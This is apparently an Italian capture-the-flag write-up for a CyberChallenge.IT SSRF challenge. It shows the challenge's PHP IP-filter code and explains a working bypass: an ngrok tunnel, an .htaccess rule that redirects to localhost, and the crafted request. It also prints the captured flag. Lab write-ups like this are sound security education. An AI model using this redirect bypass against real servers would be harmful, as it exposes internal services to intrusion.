 # Writeup: WS_1.05 - ssrf basics - level 3

## Overview
- **Categoria:** Web
- **Autore:** bonaff
- **Difficoltà:** 491
- **Stato:** Up (last checked: 15 minutes ago)
- **URL:** [http://ssrf3.challs.cyberchallenge.it/](http://ssrf3.challs.cyberchallenge.it/)

## Descrizione 📝
Il terzo livello della challenge SSRF introduce un controllo più sofisticato rispetto ai livelli precedenti. In questo caso, il server esegue diverse verifiche sull'URL passato tramite il parametro `url`, tra cui:

- Validazione del formato dell'URL.
- Controllo dello schema (accettati solo `http` e `https`).
- Risoluzione dell'host per ottenere il vero indirizzo IP.
- Verifica con la funzione `cidr_match` per bloccare indirizzi locali (es. `127.0.0.1/8` e `0.0.0.0/32`).

Il codice rilevante è il seguente:
```php
function cidr_match($ip, $range){
    list ($subnet, $bits) = explode('/', $range);
    $ip = ip2long($ip);
    $subnet = ip2long($subnet);
    $mask = -1 << (32 - $bits);
    $subnet &= $mask; // in case the supplied subnet was not correctly aligned
    return ($ip & $mask) == $subnet;
}

if(isset($_GET['url']) && !is_array($_GET['url'])){
    $url = $_GET['url'];
    if (filter_var($url, FILTER_VALIDATE_URL) === FALSE) {
        die('Not a valid URL');
    }
    $parsed = parse_url($url);
    $host = $parsed['host'];
    if (!in_array($parsed['scheme'], ['http','https'])){
        die('Not a valid URL');
    }
    $true_ip = gethostbyname($host);
    if(cidr_match($true_ip, '127.0.0.1/8') || cidr_match($true_ip, '0.0.0.0/32')){
        die('Not a valid URL');
    }
    echo file_get_contents($url);
    return;
}
```
Per aggirare questi controlli, è necessario un approccio indiretto che sfrutti un reindirizzamento controllato.

## Soluzione 🎯

### 1. Configurazione del Reindirizzamento
Per bypassare le restrizioni, si è utilizzato un tunnel ngrok e la configurazione di Apache tramite il file `.htaccess`:
- **Ngrok:** Avvia un tunnel per esporre una porta locale a internet:
  ```bash
  ngrok http 80
  ```
  Questo fornisce un URL pubblico, ad es. `https://your-id.ngrok-free.app`.

- **.htaccess:** Configura Apache in modo che ogni richiesta venga reindirizzata a `http://localhost/get_flag.php`:
  ```apache
  RewriteEngine On
  RewriteRule ^(.*)$ http://localhost/get_flag.php [R=302,L]
  ```

### 2. Esecuzione dell'Exploit
Una volta configurato il tunnel e il file `.htaccess`, è sufficiente inviare una richiesta al livello 3 della challenge con il parametro `url` impostato sull'URL di ngrok:
```
http://ssrf3.challs.cyberchallenge.it/?url=https://your-id.ngrok-free.app
```
Il server, dopo aver validato l'URL (che non risulta appartenere agli indirizzi locali grazie al nome di dominio ngrok), effettua una richiesta a `https://your-id.ngrok-free.app`. A questo punto, il file `.htaccess` reindirizza la richiesta a `http://localhost/get_flag.php`, restituendo il contenuto della flag.

### 3. Ottenimento della Flag
Visitando l'URL sopra, il server risponde con:

## Flag 🏁
```
CCIT{388d0c8b92b617986eb3ba95a07b7342}
```

## Lezioni Apprese 📚
- **Validazione degli IP:** Anche controlli sofisticati come `cidr_match` possono essere bypassati se combinati con reindirizzamenti esterni.
- **Utilizzo di Tunnel:** Ngrok e altri strumenti simili permettono di esporre servizi locali e aggirare filtri basati sull'indirizzo IP.
- **Importanza dei Reindirizzamenti:** La configurazione errata o non adeguatamente protetta dei reindirizzamenti può compromettere la sicurezza del server.

## Tools Utilizzati 🛠️
- **Browser Web:** Per inviare richieste e verificare le risposte.
- **Ngrok:** Per creare un tunnel pubblico e bypassare i controlli IP.
- **Apache .htaccess:** Per configurare il reindirizzamento interno.
- **Terminale Linux:** Per eseguire comandi e configurare l'ambiente di test.

---

*Writeup by Luca Crippa - Last Updated: 2024*
